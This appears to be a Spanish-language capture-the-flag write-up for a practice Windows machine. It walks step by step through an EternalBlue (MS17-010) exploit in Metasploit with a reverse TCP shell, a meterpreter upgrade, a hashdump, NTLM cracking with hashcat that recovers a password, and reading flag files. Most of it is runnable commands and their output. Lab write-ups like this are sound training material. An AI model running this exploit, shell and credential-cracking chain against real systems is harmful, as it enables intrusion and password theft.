 # Modulo Blue
En este modulo se explica como vulnerar un sistema comprometido con el exploit eternalblue de windows. Ocuparemos metasploit para esto.

## Fases
1. Reconocimiento
2. Explotacion
3. Crack hashes
4. Capture the flag

### 1. Reconocimiento
Utilizaremos como ip de host victima: **10.10.122.11**
Utilizaremos como ip de host atacante: **10.10.87.100**

creamos la db de metasploit

```
msfdb_init
```

en otra consola levantamos metasploit framework
```
msfconsole
```

Creamos workspace para orden
```
workspace -a blue
```
Escaneamos el objetivo
```
db_nmap 10.10.122.11
```

Centraremos nuestra atencion a los puertos que nos interesan (445)
```
db_nmap -sV --script vulners -p445 10.10.122.11
```
Veremos que es vulnerable a eternalblue
```
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
```

### 2. Explotacion

Para explotar esta vulnerabilidad debemos buscar el exploit adecuado

```
smsf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

seleccionamos el primero
```
msf6 > use 0
[*] Using configured payload windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

vemos las opciones disponibles
```
show options
```

Seteamos RHOSTS
```
set rhosts 10.10.122.11
```

Seteamos LHOSTS
```
set lhosts 10.10.87.100
```

explotamos vulnerabilidad
```
exploit
```

Luego de un rato aparecerá el shell de windows, salimos de la session con ctrl+z, verificamos la sessiones activas
```
sessions -l
```

usamos el post exploit shell_to_meterpreter para transformar la shell en un shell meterpreter
```
use post/multi/manage/shell_to_meterpreter
```

Seteamos session
```
set session 1 (numero que dio el sessions -l)
```

Corremos el post
```
run
```

Esto creará un meterpreter como session incremental (supongamos que la dejó en 2), accedemos a ella
```
sessions -i 2
```
### 3. Crack hashes

Obtenemos los hashes
```
hashdump
```

En kali, creamos el archivo hash de Jon
```
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > pwd.txt
```

Descomprimimos rockyou.txt
```
gunzip /usr/share/wordlists/rockyou.txt.gz
```

Crackeamos con hashcat
```
hashcat -m 1000 pwd.txt /usr/share/wordlists/rockyou.txt
ashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-8700 CPU @ 3.20GHz, 2866/5796 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: ffb43f0de35be4d9917ac0cc8ad57f8d
Time.Started.....: Tue Aug 29 09:25:58 2023 (1 sec)
Time.Estimated...: Tue Aug 29 09:25:59 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6819.2 kH/s (0.06ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10201088/14344385 (71.12%)
Rejected.........: 0/10201088 (0.00%)
Restore.Point....: 10199040/14344385 (71.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: alsinah -> alphasarto11

Started: Tue Aug 29 09:25:35 2023
Stopped: Tue Aug 29 09:26:00 2023
```

password: **alqfna22**

### 4. Capture the flag

En este apartado nos centraremos en los objetivos del capture the flag


Flag1? This flag can be found at the system root. 

```
shell
cd C:\
dir
type flag1.txt
exit
```

Flag2? This flag can be found at the location where passwords are stored within Windows. (El nombre de la ruta me la dio bard.google.com)

```
shell
cd C:\Windows\System32\config\
dir
type flag2.txt
exit
```

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 
```
shell
cd C:\Windows\Users\Jon\Desktop
dir
type flag3.txt
exit
```

Otra manera de hacerlo directamente desde meterpreter (Para obtener las rutas sin tanta busqueda, pero obvio, hay que entender el patron de las banderas)
```
search -f flag*.txt
```
---
Metalback